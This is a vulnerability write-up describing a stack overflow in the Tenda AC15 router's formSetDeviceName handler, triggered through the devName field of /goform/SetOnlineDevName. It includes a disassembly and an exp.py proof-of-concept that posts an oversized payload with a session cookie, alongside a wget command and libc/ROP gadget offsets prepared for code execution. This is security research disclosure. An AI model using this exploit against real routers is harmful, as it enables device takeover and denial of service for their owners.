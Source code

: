 # tenda_ac15_stackflow_formSetDeviceName

The devName function in the formSetDeviceName function causes a stack overflow.

![](vx_images/230722251873970.png)

After obtaining the mac and devName parameters, enter the sub_C6D58 function

![](vx_images/491752506272548.png)

After concatenation, a stack overflow occurs.
During dynamic debugging, it is found that the function needs to return 0 in order to reach the stack overflow point.


![](vx_images/143706622653874.png)



![](vx_images/68987593584541.png)

ni execution, after passing the PLT table, jumps to the formal address, which is 0x76eca934.

![](vx_images/441298969019440.png)


Determined to be in /lib/ld-uClibc.so.0.
However, only the corresponding assembly code was found here:

```

 0x76eca934 <+0>:	push	{r4, r11, lr}
   0x76eca938 <+4>:	add	r11, sp, #8
   0x76eca93c <+8>:	sub	sp, sp, #396	; 0x18c
   0x76eca940 <+12>:	ldr	r4, [pc, #412]	; 0x76ecaae4 <tpi_set_mac_info+432>
   0x76eca944 <+16>:	add	r4, pc, r4
   0x76eca948 <+20>:	str	r0, [r11, #-400]	; 0xfffffe70
   0x76eca94c <+24>:	str	r1, [r11, #-404]	; 0xfffffe6c
   0x76eca950 <+28>:	mov	r0, #1
   0x76eca954 <+32>:	mov	r1, #1
   0x76eca958 <+36>:	mov	r2, #0
   0x76eca95c <+40>:	bl	0x76e85c14 <socket@plt>
   0x76eca960 <+44>:	str	r0, [r11, #-16]
   0x76eca964 <+48>:	ldr	r3, [r11, #-16]
   0x76eca968 <+52>:	cmp	r3, #0
   0x76eca96c <+56>:	bge	0x76eca988 <tpi_set_mac_info+84>
   0x76eca970 <+60>:	ldr	r3, [pc, #368]	; 0x76ecaae8 <tpi_set_mac_info+436>
   0x76eca974 <+64>:	add	r3, r4, r3
   0x76eca978 <+68>:	mov	r0, r3
   0x76eca97c <+72>:	bl	0x76e85aac <puts@plt>
   0x76eca980 <+76>:	mov	r3, #255	; 0xff
   0x76eca984 <+80>:	b	0x76ecaad8 <tpi_set_mac_info+420>
   0x76eca988 <+84>:	sub	r3, r11, #392	; 0x188
   0x76eca98c <+88>:	mov	r0, r3
   0x76eca990 <+92>:	mov	r1, #0
   0x76eca994 <+96>:	mov	r2, #110	; 0x6e
   0x76eca998 <+100>:	bl	0x76e86358 <memset@plt>
   0x76eca99c <+104>:	movw	r3, #65156	; 0xfe84
   0x76eca9a0 <+108>:	movt	r3, #65535	; 0xffff
   0x76eca9a4 <+112>:	mov	r2, #1
   0x76eca9a8 <+116>:	sub	r1, r11, #12
   0x76eca9ac <+120>:	strh	r2, [r1, r3]
   0x76eca9b0 <+124>:	ldr	r3, [pc, #308]	; 0x76ecaaec <tpi_set_mac_info+440>
   0x76eca9b4 <+128>:	add	r3, r4, r3
   0x76eca9b8 <+132>:	sub	r2, r11, #392	; 0x188
   0x76eca9bc <+136>:	add	r2, r2, #2
   0x76eca9c0 <+140>:	mov	r0, r2
   0x76eca9c4 <+144>:	mov	r1, r3
   0x76eca9c8 <+148>:	mov	r2, #17
   0x76eca9cc <+152>:	bl	0x76e85a4c <memcpy@plt>
   0x76eca9d0 <+156>:	sub	r3, r11, #392	; 0x188
   0x76eca9d4 <+160>:	ldr	r0, [r11, #-16]
   0x76eca9d8 <+164>:	mov	r1, r3
   0x76eca9dc <+168>:	mov	r2, #110	; 0x6e
   0x76eca9e0 <+172>:	bl	0x76e85818 <connect@plt>
   0x76eca9e4 <+176>:	str	r0, [r11, #-20]	; 0xffffffec
   0x76eca9e8 <+180>:	ldr	r3, [r11, #-20]	; 0xffffffec
   0x76eca9ec <+184>:	cmp	r3, #0
   0x76eca9f0 <+188>:	bge	0x76ecaa08 <tpi_set_mac_info+212>
   0x76eca9f4 <+192>:	ldr	r3, [pc, #244]	; 0x76ecaaf0 <tpi_set_mac_info+444>
   0x76eca9f8 <+196>:	add	r3, r4, r3
   0x76eca9fc <+200>:	mov	r0, r3
   0x76ecaa00 <+204>:	bl	0x76e85aac <puts@plt>
   0x76ecaa04 <+208>:	b	0x76ecaacc <tpi_set_mac_info+408>
   0x76ecaa08 <+212>:	sub	r3, r11, #280	; 0x118
   0x76ecaa0c <+216>:	mov	r0, r3
   0x76ecaa10 <+220>:	mov	r1, #0
   0x76ecaa14 <+224>:	mov	r2, #256	; 0x100
   0x76ecaa18 <+228>:	bl	0x76e86358 <memset@plt>
   0x76ecaa1c <+232>:	sub	r3, r11, #280	; 0x118
   0x76ecaa20 <+236>:	str	r3, [r11, #-24]	; 0xffffffe8
   0x76ecaa24 <+240>:	ldr	r3, [r11, #-24]	; 0xffffffe8
   0x76ecaa28 <+244>:	mov	r2, #5
   0x76ecaa2c <+248>:	strb	r2, [r3]
   0x76ecaa30 <+252>:	ldr	r3, [r11, #-24]	; 0xffffffe8
   0x76ecaa34 <+256>:	mov	r2, #0
   0x76ecaa38 <+260>:	strb	r2, [r3, #1]
   0x76ecaa3c <+264>:	mov	r2, #0
   0x76ecaa40 <+268>:	strb	r2, [r3, #2]
   0x76ecaa44 <+272>:	mov	r2, #0
   0x76ecaa48 <+276>:	strb	r2, [r3, #3]
   0x76ecaa4c <+280>:	mov	r2, #0
   0x76ecaa50 <+284>:	strb	r2, [r3, #4]
   0x76ecaa54 <+288>:	ldr	r3, [r11, #-24]	; 0xffffffe8
   0x76ecaa58 <+292>:	add	r3, r3, #5
   0x76ecaa5c <+296>:	mov	r0, r3
   0x76ecaa60 <+300>:	ldr	r1, [r11, #-400]	; 0xfffffe70
   0x76ecaa64 <+304>:	mov	r2, #18
   0x76ecaa68 <+308>:	bl	0x76e85a4c <memcpy@plt>
   0x76ecaa6c <+312>:	ldr	r3, [r11, #-24]	; 0xffffffe8
   0x76ecaa70 <+316>:	add	r3, r3, #23
   0x76ecaa74 <+320>:	mov	r0, r3
   0x76ecaa78 <+324>:	ldr	r1, [r11, #-404]	; 0xfffffe6c
   0x76ecaa7c <+328>:	mov	r2, #64	; 0x40
   0x76ecaa80 <+332>:	bl	0x76e85a4c <memcpy@plt>
   0x76ecaa84 <+336>:	sub	r3, r11, #280	; 0x118
   0x76ecaa88 <+340>:	ldr	r0, [r11, #-16]
   0x76ecaa8c <+344>:	mov	r1, r3
   0x76ecaa90 <+348>:	mov	r2, #256	; 0x100
   0x76ecaa94 <+352>:	bl	0x76e85eb4 <write@plt>
   0x76ecaa98 <+356>:	str	r0, [r11, #-20]	; 0xffffffec
   0x76ecaa9c <+360>:	ldr	r3, [r11, #-20]	; 0xffffffec
   0x76ecaaa0 <+364>:	cmp	r3, #0
   0x76ecaaa4 <+368>:	bge	0x76ecaabc <tpi_set_mac_info+392>
   0x76ecaaa8 <+372>:	ldr	r3, [pc, #68]	; 0x76ecaaf4 <tpi_set_mac_info+448>
   0x76ecaaac <+376>:	add	r3, r4, r3
   0x76ecaab0 <+380>:	mov	r0, r3
   0x76ecaab4 <+384>:	bl	0x76e85aac <puts@plt>
   0x76ecaab8 <+388>:	b	0x76ecaacc <tpi_set_mac_info+408>
   0x76ecaabc <+392>:	ldr	r0, [r11, #-16]
   0x76ecaac0 <+396>:	bl	0x76e86a54 <close@plt>
   0x76ecaac4 <+400>:	mov	r3, #0
   0x76ecaac8 <+404>:	b	0x76ecaad8 <tpi_set_mac_info+420>
   0x76ecaacc <+408>:	ldr	r0, [r11, #-16]
   0x76ecaad0 <+412>:	bl	0x76e86a54 <close@plt>
   0x76ecaad4 <+416>:	mov	r3, #255	; 0xff
   0x76ecaad8 <+420>:	mov	r0, r3
   0x76ecaadc <+424>:	sub	sp, r11, #8
   0x76ecaae0 <+428>:	pop	{r4, r11, pc}
   0x76ecaae4 <+432>:	andeq	r0, r2, r4, asr r9

```
To ensure that the tpi_set_mac_info function returns 0, we need to guarantee that the socket connection is established successfully, data is sent successfully, and the socket is closed successfully. We can ensure the function executes successfully by checking the return values of the socket connection, data sending, and socket closing.

Therefore, we need to ensure that a0 contains {"mac": "BA:71:E8:E0:11:5B","devName":payload}, and the MAC address matches the device, so that the function will continue executing to the else branch.

Then, a stack overflow will occur at the following location.

![](vx_images/315457940724866.png)




![](vx_images/208297400207610.png)


Environment issue, the program needs to be tested on a physical machine.

The program crashed.



exp.py
```
#!/usr/bin/python3

import requests
from pwn import *

target_ip = "192.168.0.3"
target_port = 80  


cmd = b"wget http://192.168.0.1:8000/"
write_addr= 0x000641E8
libc_base = 0x76DAB000
system_offset = 0x5A270
readable_addr_offset = 0x64144
pop_r3_pc = 0x18298
mov_ro_ret_r3_offset = 0x40CB8


payload=b'a'*0x1000
url = f"http://{target_ip}/goform/SetOnlineDevName" 
cookie = {"cookie": "password=cmdcvb"}


data = {"mac": "BA:71:E8:E0:11:5B","devName":payload}



response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
```

ROP chain construction and exploitation, please see my GitHub ac15's exploitation chain construction.